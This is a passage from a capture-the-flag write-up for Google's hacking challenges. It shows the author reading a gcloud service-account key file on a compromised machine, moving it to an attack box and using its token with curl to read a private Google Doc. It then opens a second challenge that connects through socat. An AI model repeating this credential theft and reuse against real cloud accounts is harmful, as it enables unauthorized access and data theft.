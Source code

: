 When you with work with APIs, like cloud stuff, chances are that your directory contains some token or some other juicy configuration setting.

And, as it turns out, after some research, I found that gcloud authentication does store the user key file:

```shell
developer@googlequanta.com:/home/developer$ cat .config/gcloud/legacy_credentials/backup-tool@project-multivision.iam.gserviceaccount.com /adc.json
{
  "client_email": "backup-tool@project-multivision.iam.gserviceaccount.com",
  "client_id": "105494657484877589161",
  "private_key": "-----BEGIN PRIVATE KEY-----\n**REDACTED**\n-----END PRIVATE KEY-----\n",
  "private_key_id": "722d66d6da8d6d5356d73d04d9366a76c7ada494",
  "token_uri": "https://oauth2.googleapis.com/token",
  "type": "service_account"
}
```

We only need to export this file on our attack box and use some gcloud CLI:

```shell
❯ gcloud auth activate-service-account --key-file key.json backup-tool@project-multivision.iam.gserviceaccount.com
Activated service account credentials for: [backup-tool@project-multivision.iam.gserviceaccount.com]

❯ export TOKEN=$(gcloud auth print-access-token --scopes https://www.googleapis.com/auth/documents.readonly)

❯ curl -s -H "Authorization: Bearer ${TOKEN}" \
    https://docs.googleapis.com/v1/documents/1Z7CQDJhCj1G5ehvM3zB3FyxsCfdvierd1fs0UBlzFFM

{
  "title": "[NTK] Secret Blueprints",
[...]
                "content": "https://h4ck1ng.google/solve/**REDACTED**\n",
[...]
```

### CHALLENGE 02

> You got in, but can you get out? Better run fast. ``socat FILE:`tty`,raw,echo=0 TCP:shell-sprinter.h4ck.ctfcompetition.com:1337`` (Shift+Q to quit)
>
> Hint: If you ain't cheating, you ain't trying

Yet another game. Yet another hint suggesting you should be cheating, somehow.

This is a sort of CLI RPG game. You need to find the password to use the access point. The password is split in 3 parts, and you need to collect them, opening key-locked doors and dodging enemies.

#### Solution

The first time I tackled this challenge, I had no clue about how to cheat. I tried several keys and key-combos, without joy.

